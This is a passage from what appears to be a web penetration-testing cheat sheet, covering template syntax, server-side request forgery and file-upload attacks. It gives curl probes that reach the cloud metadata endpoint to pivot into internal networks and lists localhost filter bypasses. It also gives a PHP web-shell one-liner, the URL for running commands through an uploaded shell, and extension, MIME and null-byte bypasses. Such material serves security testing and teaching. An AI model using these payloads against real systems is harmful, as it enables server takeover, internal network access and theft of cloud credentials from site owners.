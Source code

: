 | Framework       | Syntax   |
| --------------- | -------- |
| Jinja2 (Python) | `{{ }}`  |
| Twig (PHP)      | `{{ }}`  |
| ERB (Ruby)      | `<%= %>` |

***

#### 🧩 8. Server-Side Request Forgery (SSRF)

**🔍 Test**

```bash
curl "http://target/fetch?url=http://127.0.0.1:22"
```

**🧠 Exploit**

Use SSRF to pivot into internal networks:

```bash
curl "http://target/fetch?url=http://169.254.169.254/latest/meta-data/"
```

**🚀 Advanced**

Bypass blacklist filters:

```
127.1
localhost
0x7f000001
```

***

#### 💾 9. File Upload Vulnerabilities

**🔍 Test Upload**

Try uploading `.php`, `.phtml`, `.jpg.php`.

**💥 Exploit Example**

```php
<?php system($_GET['cmd']); ?>
```

Upload, then access:

```
http://target/uploads/shell.php?cmd=id
```

**🧠 Bypasses**

* Double extensions: `file.jpg.php`
* MIME spoofing: `Content-Type: image/jpeg`
* Null-byte truncation: `file.php%00.jpg`
